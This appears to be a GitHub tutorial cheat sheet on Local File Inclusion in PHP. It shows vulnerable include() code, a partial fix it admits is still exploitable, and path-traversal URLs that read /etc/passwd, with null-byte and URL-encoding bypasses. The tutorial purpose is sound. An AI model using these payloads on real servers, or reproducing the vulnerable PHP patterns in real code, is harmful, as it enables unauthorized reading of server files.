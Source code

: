 # Local File Inclusion/lfi
## @Author : M3tr1c_r00t
<li>
  <ul>An lfi is a web vulnerability which allows one to be able to view the servers files or even include other files within the root folder of the web server.
  </ul>
  <ul>An lfi can lead to information disclosure, cross-site scripting(XSS) and even rce(remote code execution).
  </ul>
  <ul>
  An lfi can occur when a server has been poorly configured or no proper sanitization practices are being observed.
  </ul>
  <ul>
  Lfi's usually occur when an application uses a path to a file as input.
  </ul>
  <ul>
  The server treats the input as trusted and is then executed.
  </ul>
  <ul>
  Other lfi's gives attackers the abilities to upload files into the server.
  </ul>
</li>

For example;
```
https://example-site.com/?module=contact.php
```
As an attacker, we can change the module part, as it being used as a path to the contact.php and try to view the internal files...

```
https://example-site.com/?module=/etc/passwd
```
### LFI Attacks

#### We can test for lfi vulnerable code by using "../" a couple of times
```
https://example-site.com/?module=../../../../etc/passwd
```
The code example for this can be
```
<?php
$file = $_GET['file'];

 include('directory/' . $file)

?>  

#or

<?php
   $file = $_GET['file'];
   if(isset($file))
   {
       include("$file");
   }
   else
   {
       include("index.php");
   }
   ?>
```
##### This vuln can be fixed with the below code tho its still vulnerable...

```
<?php

if(isset($_GET['file']))
{
        $file=str_replace('../','',$_GET['file']);
        $file=str_replace('./','',$file);
        echo @file_get_contents('./'.$file);
}

?>
    
```

#### bypass of: $_GET['param']."php"
In some servers, they add a definite file extension to prevent exploitation....
<br>
We can exploit this by adding a null byte in url encoding:
<br>
This only applies to php version 5.3.4 and below...
```
http://example.com/index.php?page=../../../etc/passwd%00 // Only applies to PHP 5.3.4 and below
```
<br>

#### In other cases, we can use url encoding...
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
```
#### If that doesn't work, try double url encoding...
```
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
